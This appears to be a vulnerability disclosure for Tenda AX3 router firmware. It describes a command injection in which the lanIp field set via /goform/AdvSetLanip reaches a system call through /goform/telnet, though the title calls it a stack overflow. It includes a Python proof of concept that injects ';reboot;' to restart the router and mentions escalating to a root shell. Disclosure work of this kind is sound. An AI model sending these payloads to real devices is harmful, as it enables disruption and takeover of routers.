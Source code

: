 # Tenda AX3 V16.03.12.11 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-3476.html

## Affected version

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/1.png)

## Vulnerability details

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/2.png)

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/3.png)

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/4.png)

In /goform/AdvSetLanip, /goform/telnet, You can set lanip in AdvSetLanip. In the telnet function, the program will get the value of lanip and pass it into the system without any filtering. If the user passes in a malicious command, it will cause a command injection vulnerability.

## Poc

```python
import requests

url = "http://192.168.0.1/goform/AdvSetLanip"

lanIp = ';reboot;'

r = requests.post(url, data={'lanIp': lanIp})
print(r.content)

url = "http://192.168.0.1/goform/telnet"

r = requests.post(url, data={'lanIp': lanIp})
print(r.content)
```

You can see that the router restarts, forming a command injection vulnerability, and finally you can write exp to get root shell

